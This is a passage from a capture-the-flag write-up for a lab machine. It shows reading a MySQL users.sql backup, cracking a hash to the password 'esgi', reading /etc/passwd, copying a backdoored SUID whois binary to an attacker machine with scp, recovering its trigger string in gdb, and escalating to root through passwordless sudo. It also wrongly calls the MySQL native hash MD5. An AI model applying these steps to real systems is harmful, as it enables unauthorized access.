-rw-r--r--  1 root root  7165 Mar 23 01:46 wp-activate.php
drwxr-xr-x  9 root root  4096 Mar 23 02:03 wp-admin
-rw-r--r--  1 root root   351 Mar 23 01:46 wp-blog-header.php
-rw-r--r--  1 root root  2328 Mar 23 01:46 wp-comments-post.php
-rw-r--r--  1 root root  2913 Mar 23 01:46 wp-config-sample.php
-rw-r--r--  1 root root  2881 Mar 23 02:09 wp-config.php
drwxr-xr-x  4 root root  4096 Mar 23 01:46 wp-content
-rw-r--r--  1 root root  3939 Mar 23 01:46 wp-cron.php
drwxr-xr-x 25 root root 12288 Mar 23 01:46 wp-includes
-rw-r--r--  1 root root  2496 Mar 23 01:46 wp-links-opml.php
-rw-r--r--  1 root root  3649 Mar 23 01:46 wp-load.php
-rw-r--r--  1 root root 45339 Mar 23 01:46 wp-login.php
-rw-r--r--  1 root root  8509 Mar 23 01:46 wp-mail.php
-rw-r--r--  1 root root 21125 Mar 23 01:46 wp-settings.php
-rw-r--r--  1 root root 31328 Mar 23 01:46 wp-signup.php
-rw-r--r--  1 root root  4747 Mar 23 01:46 wp-trackback.php
-rw-r--r--  1 root root  3236 Mar 23 01:46 xmlrpc.php
```

Hehehehe we cat this file and surprise there is an user in.

```sql
<l/backups-4e45a234079C45bc326b12ce453/new-website$ cat users.sql
cat users.sql
/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

LOCK TABLES `user` WRITE;
/*!40000 ALTER TABLE `user` DISABLE KEYS */;
INSERT INTO `user` (`Host`, `User`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Reload_priv`, `Shutdown_priv`, `Process_priv`, `File_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Show_db_priv`, `Super_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Execute_priv`, `Repl_slave_priv`, `Repl_client_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Create_user_priv`, `Event_priv`, `Trigger_priv`, `Create_tablespace_priv`, `ssl_type`, `ssl_cipher`, `x509_issuer`, `x509_subject`, `max_questions`, `max_updates`, `max_connections`, `max_user_connections`, `plugin`, `authentication_string`, `password_expired`, `password_last_changed`, `password_lifetime`, `account_locked`) VALUES ('%','eguillemot','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','','','','',0,0,0,0,'mysql_native_password','*B38E48ED65DF090D475F5F25E030D183BC140ECD','N','2018-04-15 22:00:00',NULL,'N');
/*!40000 ALTER TABLE `user` ENABLE KEYS */;
UNLOCK TABLES;

LOCK TABLES `db` WRITE;
/*!40000 ALTER TABLE `db` DISABLE KEYS */;
INSERT INTO `db` (`Host`, `Db`, `User`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Execute_priv`, `Event_priv`, `Trigger_priv`) VALUES ('localhost','performance_schema','mysql.session','Y','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N');
INSERT INTO `db` (`Host`, `Db`, `User`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Execute_priv`, `Event_priv`, `Trigger_priv`) VALUES ('localhost','sys','mysql.sys','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','Y');
/*!40000 ALTER TABLE `db` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

We have the user `eguillemot` and a hashed password `B38E48ED65DF090D475F5F25E030D183BC140ECD`. That one look like a MD5 hash so we can reverse it easely.

`B38E48ED65DF090D475F5F25E030D183BC140ECD → esgi`

Now we have an user, we can loggin with it.

```bash
www-data@artemis:/tmp$ su eguillemot
su eguillemot
Password: esgi

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

eguillemot@artemis:/tmp$ cd
cd
eguillemot@artemis:~$ cat user.txt
cat user.txt
CEH{Wh4t_4_w0nd3rfUl_w3bs1t3}
```

Once we managed to login as `eguillemot` on the vm, we first tried to look out if there was other users than us.

```bash
eguillemot@artemis:~$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
eguillemot:x:1000:1000:Erwan Guillemot,,,:/home/eguillemot:/bin/bash
khennou:x:1001:1001:Kamal Hennou,,,:/home/khennou:/bin/bash
```

As we can see there was another user `khennou` with UID 1001 and GID 1001, we can deduce this user was created by another one.

Let's have a look to the home of this user under `/home/khennou`

```bash
eguillemot@artemis:~$ ls -la /home/
total 16
drwxr-xr-x  4 root       root       4096 Mar 23 01:32 .
drwxr-xr-x 23 root       root       4096 Mar 23 02:00 ..
drwxr-xr-x 16 eguillemot eguillemot 4096 Mar 25 04:57 eguillemot
drwxr-xr-x  2 khennou    khennou    4096 Mar 23 03:21 khennou
```

Sweet! we can read this folder with the user `eguillemot` :)

```bash
eguillemot@artemis:~$ ls -lah /home/khennou/
total 32K
drwxr-xr-x 2 khennou khennou    4.0K Mar 23 03:21 .
drwxr-xr-x 4 root    root       4.0K Mar 23 01:32 ..
lrwxrwxrwx 1 root    root          9 Mar 23 03:21 .bash_history -> /dev/null
-rw-r--r-- 1 khennou khennou     220 Mar 23 01:32 .bash_logout
-rw-r--r-- 1 khennou khennou    3.7K Mar 23 01:32 .bashrc
-rw-r--r-- 1 khennou khennou    8.8K Mar 23 01:32 examples.desktop
-rw-r--r-- 1 khennou khennou     807 Mar 23 01:32 .profile
-rw-r--r-- 1 khennou eguillemot    0 Mar 23 03:12 .sudo_as_admin_successful
```

Interesting 🤔  it seems like the user `khennou` can run commands as root! assumed by the presence of the file `.sudo_as_admin_successful` 

Let's try to find away to open a shell as the users `khennou` !

By look at the available binary files on the system, we noticed something suspicious!

```bash
eguillemot@artemis:~$ ls -lah /usr/bin  | grep khennou
-rwsr-xr-x  1 khennou khennou   17K Mar 23 03:06 whois
```

The binary whois seems like altered, and when we run the binary, the behaviour is not like the original tools!

```bash
eguillemot@artemis:~$ whois
work pls!
eguillemot@artemis:~$ echo $?
0
```

The binary is waiting for an input on the `stdin` before exiting with a `0` status. Definitely weird.

let' have a look on what is inside this binary! for that, I scp the binary from VM to my local kali machine, with scp 

```bash
eguillemot@artemis:~$ scp /usr/bin/whois kali@192.168.19.132:/home/kali/whois-wierd
kali@192.168.19.132's password: 
whois                                                100%   16KB   8.7MB/s   00:00
```

Then I took a look into it with `Ghidra` which is basically  a reverse engineering tool!

under the functions tab of the tool, we can see the function used by our binary



I started by look at the main function and then figured out our whois is juste a dumb `strcmp` with a value fetched from `stdin`  with a value stored in memory!


On this screen we can see:

- A variable called `local_34` pointing to an address.
- Another variable called `local_2c` pointing to another address.
- A char array variable called `local_28` with a size of 12.
- then the function `fgets` is called to read a value from the `stdin` of length `12` (which is `0xC` in hex).
- and then the `strcmp` is being called to compare the value of `local_28` with `local_34` and the result is stored in the variable `local_lc`.
- if the local_lc was `true` a shell will be executed, otherwise the programme exits with a `0`.

Always on my kali machine, I tired to run the `whois-weird` binary and have a look what is stored inside those variable during the runtime using `gdb`.

I started gdb and set a break point on the main symbol and disassembled the main function to display the pointer address of the `strcmp` call.

```bash
┌──(kali㉿kali)-[~]
└─$ gdb whois-wierd 
GNU gdb (Debian 10.1-1.7) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
(No debugging symbols found in whois-wierd)
(gdb) b main
Breakpoint 1 at 0x1179
(gdb) disassemble 
No frame selected.
(gdb) run
Starting program: /home/kali/whois-wierd 

Breakpoint 1, 0x0000555555555179 in main ()
(gdb) disassemble 
Dump of assembler code for function main:
   0x0000555555555175 <+0>:	push   %rbp
   0x0000555555555176 <+1>:	mov    %rsp,%rbp
=> 0x0000555555555179 <+4>:	push   %rbx
   0x000055555555517a <+5>:	sub    $0x28,%rsp
   0x000055555555517e <+9>:	movabs $0x5e415d415d415d5b,%rax
   0x0000555555555188 <+19>:	mov    %rax,-0x2c(%rbp)
   0x000055555555518c <+23>:	movl   $0x415f41,-0x24(%rbp)
   0x0000555555555193 <+30>:	mov    0x2eb6(%rip),%rdx        # 0x555555558050 <stdin@GLIBC_2.2.5>
   0x000055555555519a <+37>:	lea    -0x20(%rbp),%rax
   0x000055555555519e <+41>:	mov    $0xc,%esi
   0x00005555555551a3 <+46>:	mov    %rax,%rdi
   0x00005555555551a6 <+49>:	call   0x555555555050 <fgets@plt>
   0x00005555555551ab <+54>:	lea    -0x2c(%rbp),%rdx
   0x00005555555551af <+58>:	lea    -0x20(%rbp),%rax
   0x00005555555551b3 <+62>:	mov    %rdx,%rsi
   0x00005555555551b6 <+65>:	mov    %rax,%rdi
   0x00005555555551b9 <+68>:	call   0x555555555060 <strcmp@plt>
   0x00005555555551be <+73>:	mov    %eax,-0x14(%rbp)
   0x00005555555551c1 <+76>:	cmpl   $0x0,-0x14(%rbp)
   0x00005555555551c5 <+80>:	jne    0x5555555551fc <main+135>
   0x00005555555551c7 <+82>:	mov    $0x0,%eax
   0x00005555555551cc <+87>:	call   0x555555555040 <geteuid@plt>
   0x00005555555551d1 <+92>:	mov    %eax,%ebx
   0x00005555555551d3 <+94>:	mov    $0x0,%eax
   0x00005555555551d8 <+99>:	call   0x555555555040 <geteuid@plt>
   0x00005555555551dd <+104>:	mov    %ebx,%esi
   0x00005555555551df <+106>:	mov    %eax,%edi
   0x00005555555551e1 <+108>:	mov    $0x0,%eax
   0x00005555555551e6 <+113>:	call   0x555555555070 <setreuid@plt>
   0x00005555555551eb <+118>:	lea    0xe12(%rip),%rdi        # 0x555555556004
   0x00005555555551f2 <+125>:	mov    $0x0,%eax
   0x00005555555551f7 <+130>:	call   0x555555555030 <system@plt>
   0x00005555555551fc <+135>:	mov    $0x0,%eax
   0x0000555555555201 <+140>:	mov    -0x8(%rbp),%rbx
   0x0000555555555205 <+144>:	leave  
   0x0000555555555206 <+145>:	ret    
End of assembler dump.
(gdb) 
```

Perfect! the `strcmp` is here as we can see, and available at the `0x00005555555551b9` address!

let's set a breakpoint on this pointer, forward the execution flow till this pointer, and dump the register variables which are passed as arguments to this function.

```bash
(gdb) b *0x00005555555551b9
Breakpoint 2 at 0x5555555551b9
(gdb) c
Continuing.
test

Breakpoint 2, 0x00005555555551b9 in main ()
(gdb) reg info
Undefined command: "reg".  Try "help".
(gdb) info reg
rax            0x7fffffffdfb0      140737488347056
rbx            0x0                 0
rcx            0x5555555592a5      93824992252581
rdx            0x7fffffffdfa4      140737488347044
rsi            0x7fffffffdfa4      140737488347044
rdi            0x7fffffffdfb0      140737488347056
rbp            0x7fffffffdfd0      0x7fffffffdfd0
rsp            0x7fffffffdfa0      0x7fffffffdfa0
r8             0x7fffffffdfb0      140737488347056
r9             0x7ffff7fadbe0      140737353800672
r10            0x6e                110
r11            0x246               582
r12            0x555555555090      93824992235664
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x5555555551b9      0x5555555551b9 <main+68>
eflags         0x206               [ PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) print (char *) $rsi
$1 = 0x7fffffffdfa4 "[]A]A]A^A_A"
(gdb)
```

And Tada 🥁 the value which is compared to our input is `[]A]A]A^A_A` , let's try this on the compromised VM and see what will happen!

```bash
eguillemot@artemis:~$ whois
[]A]A]A^A_A
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

khennou@artemis:~$ whoami
khennou
khennou@artemis:~$ sudo -l
Matching Defaults entries for khennou on artemis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User khennou may run the following commands on artemis:
    (ALL : ALL) NOPASSWD: ALL
khennou@artemis:~$
```

WOP WOP 🎤 🙌  the exploit worked just as expected! after typing the right flag, the whois binary kicked out a shell with the user `khennou` ! and more exciting the user `khennou` can execute `sudo` commands with no password!

Which bring us to our final Escalation using the sudo to login as `root`

```bash
khennou@artemis:~$ sudo su
root@artemis:~# cat root.txt 
CEH{B4ckd0or3d_3SG1????}
root@artemis:~#
```

That's it folks ♟️

©ezqielle